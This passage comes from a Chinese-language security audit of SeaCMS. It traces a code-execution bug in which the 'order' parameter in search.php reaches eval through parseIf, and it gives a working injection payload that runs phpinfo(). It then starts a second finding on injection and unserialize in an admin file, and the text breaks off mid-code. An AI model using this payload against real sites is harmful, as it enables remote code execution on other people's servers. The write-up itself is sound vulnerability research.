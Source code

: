 ```php
                $content = str_replace($iar[0][$m], $resultStr, $content);
            }
        }
        return $content;
    }
}
```

在`parseIf`中利用正则提取内容,然后把内容分拆后放到`eval`中从而达到代码执行的目的

搜索`parseIf`的引用,发现在`search.php`中会向模板中插入用户数据后传递给`parseIf`(其他的php没有这种行为,只会直接将模板读取然后传递给`parseIf`)

一开始我用的是`searchword`参数,但是传递进去后发现内容被修改,然后我换成`order`参数,发现这个参数只进行`addslashes`转义操作

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203081416771.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203081419458.png)

将`order`参数利用`str_replace`替换到`content`后,`content`被传递到`parseIf`进行分拆并eval执行

最终payload

`searchtype=5&order="}asdf{end if}  {if:phpinfo()}asdf{end if}`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203081454475.png)

[一个师傅的分析文章 seacms 多个版本的代码执行漏洞总结](https://github.com/jiangsir404/PHP-code-audit/blob/master/seacms/seacms%20%E5%A4%9A%E4%B8%AA%E7%89%88%E6%9C%AC%E7%9A%84%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93(search.php).md)

## admin/admin_collect_news.php存在注入(无视waf)

反引号注入,正则搜索规则\`[$][A-Za-z0-9_]*\`

```php
elseif($action=="importok")
{
	$importrule = trim($importrule);
	if(empty($importrule))
	{
		ShowMsg("规则内容为空！","-1");
		exit();
	}
	//对Base64格式的规则进行解码
	if(m_ereg('^BASE64:',$importrule))
	{
		if(!m_ereg(':END$',$importrule))
		{
			ShowMsg('该规则不合法，Base64格式的采集规则为：BASE64:base64编码后的配置:END !','-1');
			exit();
		}
		$importrules = explode(':',$importrule);
		$importrule = $importrules[1];
		$importrule = unserialize(base64_decode($importrule)) OR  die('配置字符串有错误！'); 
		//die(base64_decode($importrule));
	}
	else
	{
		ShowMsg('该规则不合法，Base64格式的采集规则为：BASE64:base64编码后的配置:END !','-1');
		exit();
	}
	if(!is_array($importrule) || !is_array($importrule['config']) || !is_array($importrule['type']))
	{
		ShowMsg('该规则不合法，无法导入!','-1');
		exit();
```